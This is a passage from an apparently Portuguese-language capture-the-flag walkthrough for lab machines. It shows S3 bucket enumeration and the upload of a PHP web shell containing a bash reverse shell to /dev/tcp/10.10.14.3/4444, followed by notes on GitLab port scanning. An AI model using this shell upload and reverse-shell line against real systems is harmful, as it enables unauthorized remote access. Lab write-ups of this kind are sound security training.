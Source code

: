     ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%207.png)
    
    Encontramos que o bucket adserver está presente. Vamos listar todo o conteúdo dentro deste bucket.
    
    `aws --endpoint-url=http://s3.bucket.htb s3 ls s3://adserver`
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%208.png)
    
    É possível baixar os arquivos emitindo o seguinte comando.
    
    `aws --endpoint-url=http://s3.bucket.htb s3 sync s3://adserver .`
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%209.png)
    
    Ao examinar o conteúdo do arquivo index.html, descobrimos que esses arquivos são servidos pelo servidor Apache. Podemos enviar um arquivo PHP de exemplo para o bucket S3 para testar se o PHP está de fato instalado.
    
    `echo '<?php phpinfo();?>' > test.php`
    `aws --endpoint-url=http://s3.bucket.htb s3 cp test.php s3://adserver`
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2010.png)
    
    Também notamos que o PHP está instalado no servidor Apache. Podemos executar os seguintes comandos para enviar outro arquivo PHP com código que pode retornar um shell reverso.
    
    `echo "<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/10.10.14.3/4444 0>&1 \"');
    ?>" > shell.php`
    `aws --endpoint-url=http://s3.bucket.htb s3 cp shell.php s3://adserver/`
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2011.png)
    
    Vamos iniciar um ouvinte na porta 4444 e navegar até [http://bucket.htb/shell.php](http://bucket.htb/shell.php).
    
- GitLab
    
    Site gitLab Portas
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2012.png)
    
    Duas portas abertas `22` e `5080`.
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2013.png)
    
    Fazemos o registo para poder aceder ao gitlab.
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2014.png)
    
    Ao navegar para Projetos -> Explorar projetos -> Alternar para "Todos" -> dude / ready-channel, revela o código-fonte do Drupal CMS.
    No canto superior direito da página da web, podemos encontrar o link de ajuda, que revela a versão do Gitlab.
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2015.png)
    